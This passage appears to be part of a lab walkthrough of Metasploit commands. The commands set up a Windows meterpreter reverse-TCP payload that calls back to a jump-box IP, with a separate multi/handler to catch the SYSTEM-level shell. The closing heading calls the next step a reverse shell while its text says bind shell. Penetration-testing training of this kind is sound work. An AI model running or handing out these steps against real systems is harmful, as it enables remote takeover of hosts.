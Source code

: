 Configure the payload to call back to one of the jump box 10dot IPs.
```
set LHOST 10.1.1.10
```

```
set LPORT 60000
```

The callback will be handled by a separate payloadhandler, so disable it in this msfconsole.
```
set DisablePayloadHandler True
```

Double check everything.
```
show options
```

```
check
```

SHELL 2:
```
sudo msfdb run
```

Start a generic payload handler.
```
use exploit/multi/handler
```

Be sure your PAYLOAD matches what is specified in the exploit.  Either the 32 or 64-bit are options with this exploit.

```
set PAYLOAD windows/x64/meterpreter/reverse_tcp
```

```
set LHOST 127.0.0.1
```

```
set LPORT 60000
```

```
run
```

SHELL 1:
```
exploit
```

#### 6.4 Windows System-level Shell Option 2 - Reverse shell payload

Same as previous exercise, but configure the payload to be a bind shell.
